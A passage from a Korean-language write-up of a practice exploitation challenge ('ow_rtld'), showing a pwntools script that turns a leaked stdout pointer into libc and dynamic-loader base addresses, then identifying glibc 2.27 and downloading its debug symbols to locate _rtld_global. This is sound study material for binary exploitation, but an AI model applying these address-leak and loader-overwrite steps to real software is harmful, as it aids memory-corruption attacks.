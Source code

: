 
<img width="1870" height="867" alt="image (34)" src="https://github.com/user-attachments/assets/bf9a7197-526e-4f68-8b0a-2cdc159dabd0" />

이제 주어지는 stdout 으로 libc 베이스 주소를 구할 수 있기때문에 libc 베이스에서 로더사이의 오프셋을 구해준다.  

`0x3f1000` 인 것을 알아냈다  

그럼 이제 로더와 libc 의 베이스주소를 구하는 익스플로잇 코드를 짜보자.   

 <br>
 
**베이스 주소 릭 익스플로잇 코드**

```bash
from pwn import *
p = process('./ow_rtld')
libc = ELF('./libc-2.27.so')
ld = ELF('./ld-2.27.so')
p.recvuntil(b': ')
stdout = int(p.recvuntil(b'\n'), 16)
libc_base = stdout - libc.symbols['_IO_2_1_stdout_']
ld_base = libc_base + 0x3f1000
print('libc_base..', hex(libc_base))
print('ld_base..', hex(ld_base))
p.interactive()
```

<img width="1211" height="596" alt="image (35)" src="https://github.com/user-attachments/assets/3ac1377e-67bd-4fc1-9f4b-5c440a9e7f23" />


<br>

이제 `_rtld_global` 주소를 계산해주어야 한다.   

그러기 위해선 `_rtld_global` 구조체에 대한 모든 정보를 담고 있는 디버깅 심볼이 필요하다.  
먼저 glibc 버전을 알아내준다.   

```bash
root@c6d07003e850:~/rtld_global# ./libc-2.27.so
GNU C Library (Ubuntu GLIBC 2.27-3ubuntu1) stable release version 2.27.
Copyright (C) 2018 Free Software Foundation, Inc.
This is free software; see the source for copying conditions.
There is NO warranty; not even for MERCHANTABILITY or FITNESS FOR A
PARTICULAR PURPOSE.
Compiled by GNU CC version 7.3.0.
libc ABIs: UNIQUE IFUNC
For bug reporting instructions, please see:
<https://bugs.launchpad.net/ubuntu/+source/glibc/+bugs>.
```

실행 첫 라인에 저렇게 glibc 상세 버전이 뜬다.    
이제 이걸 구글링해서 다운로드 해준다.  

```bash
wget http://launchpadlibrarian.net/365856914/libc6-dbg_2.27-3ubuntu1_amd64.deb
```

<br>
